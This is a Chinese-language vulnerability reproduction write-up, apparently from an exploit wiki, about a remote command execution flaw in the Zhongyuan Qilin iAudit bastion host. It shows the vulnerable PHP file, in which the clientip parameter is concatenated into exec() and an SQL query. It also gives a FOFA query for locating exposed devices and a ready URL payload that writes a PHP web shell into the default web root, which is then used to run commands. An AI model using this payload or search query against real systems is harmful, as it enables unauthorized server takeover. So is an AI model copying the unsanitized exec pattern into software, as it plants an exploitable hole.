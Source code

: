 # 中远麒麟 iAudit堡垒机 get_luser_by_sshport.php 远程命令执行漏洞

## 漏洞描述

中远麒麟 iAudit堡垒机 get_luser_by_sshport.php文件存在命令拼接，攻击者通过漏洞可获取服务器权限

## 漏洞影响

<a-checkbox checked>中远麒麟 iAudit堡垒机</a-checkbox></br>

## FOFA

<a-checkbox checked>cert.subject="Baolei"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210714220315959.png)



出现漏洞的文件为 get_luser_by_sshport.php



```php
<?php
define('CAN_RUN', 1);
require_once('include/global.func.php');
require_once('include/db_connect.inc.php');
if(empty($_GET['clientip'])){
	echo 'no host';
	return;
}
if(empty($_GET['clientport'])){
	echo 'no port';
	return;
}
$cmd = 'sudo perl test.pl '.$_GET['clientip'].' '.$_GET['clientport'];
exec($cmd, $o, $r);
 $sql = "SELECT luser FROM sessions WHERE addr='".$_GET['clientip']."' and pid='".$o[0]."' order by sid desc limit 1";
$rs = mysql_query($sql);
$row = mysql_fetch_array($rs);
echo $row['luser'];
?>
```



其中 clientip存在命令拼接 使用 ; 分割命令就可以执行任意命令

Web目录默认为 **/opt/freesvr/web/htdocs/freesvr/audit/**

发送Payload

```plain
https://xxx.xxx.xxx.xxx/get_luser_by_sshport.php?clientip=1;echo+%27%3C?php%20var_dump(shell_exec($_GET[cmd]));?%3E%27%3E/opt/freesvr/web/htdocs/freesvr/audit/test.php;&clientport=1
```

![img](../../../.vuepress/public/img/image-20210714220838976.png)



再访问写入的文件执行命令

![img](../../../.vuepress/public/img/image-20210714221135635.png)